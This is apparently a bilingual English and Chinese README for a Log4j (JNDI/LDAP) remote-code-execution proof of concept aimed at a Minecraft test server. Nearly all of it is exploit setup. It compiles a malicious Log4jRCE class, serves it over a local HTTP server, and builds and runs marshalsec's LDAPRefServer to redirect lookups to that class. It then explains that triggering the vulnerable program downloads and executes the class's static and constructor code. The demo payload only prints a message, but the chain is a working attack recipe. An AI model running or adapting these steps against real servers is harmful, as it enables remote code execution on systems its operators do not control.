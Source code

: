 ### FOR TEST SERVER MINECRAFT


### Steps
1. 【Important】***Move*** Log4jRCE.java to /home/remote/Log4jRCE.java, or any other directories except apache-log4j-poc.

2. Compile Log4jRCE.java and start http server
   1. `cd /home/remote`
   2. `javac Log4jRCE.java`
   3. start http server，python or php，`php -S 127.0.0.1:8888`

3. Start ldap server
   1. `git clone git@github.com:mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. start ldap server `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
   
4. Start log4j.java, then you can see `I am Log4jRCE from remote!!!`


### 触发步骤
1. 【重要】将Log4jRCE.java **挪出** 当前项目目录，比如挪到/home/remote/Log4jRCE.java，不然log4j.java运行时会读取到本地的Log4jRCE.java，就不走http远程下载了！

2. 编译Log4jRCE.java并启动http server
   1. 进入目录 `cd /home/remote`
   2. 编译 `javac Log4jRCE.java`
   3. 启动http server，python或php均可快速启动，如`php -S 127.0.0.1:8888`

3. 启动ldap server
   1. `git clone git@github.com:mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. 启动ldap server `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"`
4. 启动log4j.java，然后就会发现命令行出现了`I am Log4jRCE from remote!!!`。底层就是会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

